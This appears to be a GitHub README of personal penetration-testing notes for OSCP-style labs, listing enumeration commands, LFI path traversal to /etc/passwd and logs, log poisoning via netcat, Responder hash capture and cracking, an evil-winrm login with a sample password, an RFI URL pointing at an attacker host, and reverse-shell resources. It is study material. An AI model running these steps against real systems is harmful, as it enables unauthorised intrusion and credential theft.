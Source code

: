 # Zero-to-Hero-Pen-Testing-Notes-

1.Always maunally ennumerate and check the source code control+u/ Check `/robots.txt` `/sitemap.xml`\
2.`gobuster dir -u http://$IP:PORT -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f` -b (for bad servercode) -f (add this flag if gobuster is not returing any results for a long time) \
2.5 `wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200 http://$IP/FUZZ` \ 
2.6. Check wappalayzer to check basic info of the page. \
3. `nikto -h $IP`   , `dirb http://IP -r -z 10`
4. If you do not find any specific directory add the -f flag to go buster and rerun\
5. If you find some directory and stuck  make sure to run gobuster again with the new directory i.e http:\\$IP/newDirectory  
6. Searchsploit technologies for vulnerabiltieis `nmap -p 80,443  --script=*vuln* $IP`
7. Try directory busting while logged in
8. command Injections?  RCE, XSS, SQLi  enter a command and chaining commands such as  “&”, “&&”, “|”, “||”, etc

# Possible web vulnerabilities
## LFI
1. LocalFile Inclusion: We can log poision if linux based or try remote access control if Window
2. Check links ending with `?file=index.php ?book=`  (Possible vulnerabilities in source code)
3. book= `../../../../etc/passwd`   (Figure out if the server is hosting on **Window or Apache )
4. `../../../../var/www/html/index.php`  html to confirm log poisoning 
5. Add  `../ ../../../../` and check if the following following files exists.
6. `/etc/passwd`\ `/var/log/mail/USER`\  `/var/log/apache2/access.log`\  `/proc/self/environ`\  `/tmp/sess_ID`\ `/var/lib/php5/sess_ID`\ `/var/log/auth/log`\  
7. `/windows/system32/drivers/etc/hosts` (for **window host**)\  Go to step 12 
8. Now that we have confirmed LFI vulnerablity, **lets log poision** `../../../../var/log/apache2/access.log` via invalid connection request.
9. Connect to `nc -nv $IP port`.Insert commandline exeuction payload (This depends on what techonology it is using. php ..etc)
10. Check for sucessful log poisioning `../../../../var/log/apache2/access.log&cmd=id`.
11. If you receive command execution, we will insert a reversshell via url encoding. Done. (wrapped and url encode)
12. Create a reverse webshell (Check if RFI) is also possible
13. Upload it 
14. 
15. methods 16-18 are not allowed in the OSCP.
16. Use responder to capture. `sudo python3 Responder.py -I tun0. inject file=//$MyIP/testShare in the url`. Use john the ripper to match hash. 
17. `john -w=/usr/share/wordlists/rockyou.txt hash.txt`
18. login to window .`evil-winrm -i 10.129.147.34 -u Administrator -p badminton`
## RFI
1. Example Vulerable wesbites: `http://exampe.com/index.php?page=http://attackerserver.com/evil.txt`
2. Host a server with python `python3 -m http.server 8080` with reverseshell code.
## Login page
1. Always check for default credentials
2. SQL injection
3. Burpite suite brute force, Hydra (use with caution can be locked out) 
4. Searchsploit Any version info of the login page? ex: pfsense 2.3.2
## Domain/Subdomain 
1. When seeing a contact page, with emails, make note of them, check if they are using some special domain \
2. change /etc/hosts and add the host name
3. gobuster vhost --append-domain -u http://$DomainName -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \

## XSS

## Getting a stable reverse shell
0. Check what language/ technology it is using ex: php, python, perl and possibly the version, to know which revershell to pick.
1. https://www.revshells.com/
2. Payloads. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python


## Top Ten OWASP.
1. Broken authentication
2. Sensetive Data exposure
3  Command Injection. Try valid argument followed by `;` and commands like `whoami`
